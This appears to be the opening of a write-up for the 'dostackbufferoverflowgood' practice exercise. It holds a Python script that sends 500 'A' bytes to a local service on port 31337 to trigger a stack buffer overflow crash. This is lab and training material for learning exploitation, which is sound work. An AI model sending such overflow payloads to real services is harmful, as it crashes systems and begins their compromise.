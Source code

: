 # dostackbufferoverflowgood

## Initial Crash

```py
import struct
import socket

TARGET_IP = "127.0.0.1"
TARGET_PORT = 31337
target = (TARGET_IP, TARGET_PORT) 

CRASH_LEN = 500  # change me

payload = b"A" * CRASH_LEN
payload += b"\n"

with socket.create_connection(target) as sock:
    sent = sock.send(payload)
    print(f"sent {sent} bytes")
```

